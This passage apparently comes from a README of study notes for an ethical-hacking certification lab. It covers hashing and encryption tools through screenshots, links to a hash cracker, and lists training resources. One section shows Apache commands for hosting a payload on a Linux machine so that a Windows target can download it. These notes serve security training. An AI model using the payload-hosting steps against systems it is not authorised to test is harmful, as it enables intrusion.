  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>
<details>
  <summary>online hash Links</summary>
  
## hash.com Link
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [hark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  






